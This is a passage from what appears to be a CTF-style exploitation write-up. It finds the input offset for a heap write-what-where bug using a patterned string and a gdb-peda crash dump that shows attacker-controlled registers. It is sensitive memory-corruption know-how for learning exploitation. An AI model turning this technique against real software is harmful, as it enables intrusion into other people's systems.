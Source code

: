 #### Write What Where

##### Input Offset

Now that we have to figure out the offset fromt he start of our input in the heap is untill we start writing to the memory stored in `eax+0x8` and `edx` for the write what where. I did this by sending it a string structured that we can tell the offset of a substring just by it's value. The string I chose was just `"X"*5 + "z"*55 + "0"*4 + "1"*4 + "2"*4 + "3"*4 + "4"*4 + "5"*4 + "6"*4 + "7"*4 + "8"*4 + "9"*4` (there are utillities that will automoate this task). When we get to the crash we can see the values:

```
[----------------------------------registers-----------------------------------]
EAX: 0x37373737 ('7777')
EBX: 0x0 
ECX: 0x8 
EDX: 0x38383838 ('8888')
ESI: 0xf7fb2000 --> 0x1b1db0 
EDI: 0xf7fb2000 --> 0x1b1db0 
EBP: 0xffffce08 --> 0xffffce48 --> 0xffffce98 --> 0xffffcee8 --> 0xffffcf08 --> 0xffffcf58 (--> ...)
ESP: 0xffffcdf0 --> 0x0 
EIP: 0x8049855 (mov    DWORD PTR [eax+0x8],edx)
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804984c:	mov    eax,DWORD PTR [ebp+0x8]
   0x804984f:	mov    eax,DWORD PTR [eax+0x4]
   0x8049852:	mov    edx,DWORD PTR [ebp-0xc]
=> 0x8049855:	mov    DWORD PTR [eax+0x8],edx
   0x8049858:	mov    eax,DWORD PTR [ebp+0x8]
   0x804985b:	mov    eax,DWORD PTR [eax+0x8]
   0x804985e:	mov    edx,DWORD PTR [ebp-0x10]
   0x8049861:	mov    DWORD PTR [eax+0x4],edx
[------------------------------------stack-------------------------------------]
0000| 0xffffcdf0 --> 0x0 
0004| 0xffffcdf4 --> 0xf7fb2000 --> 0x1b1db0 
0008| 0xffffcdf8 ("77778888\004")
0012| 0xffffcdfc ("8888\004")
0016| 0xffffce00 --> 0x4 
0020| 0xffffce04 --> 0x804c048 ("XXXXX", 'z' <repeats 55 times>, "000011112222333344445555\022")
0024| 0xffffce08 --> 0xffffce48 --> 0xffffce98 --> 0xffffcee8 --> 0xffffcf08 --> 0xffffcf58 (--> ...)
0028| 0xffffce0c --> 0x80499ea (add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x08049855 in ?? ()
gdb-peda$ p $edx
$1 = 0x38383838
gdb-peda$ p $eax+0x8
$2 = 0x3737373f
```
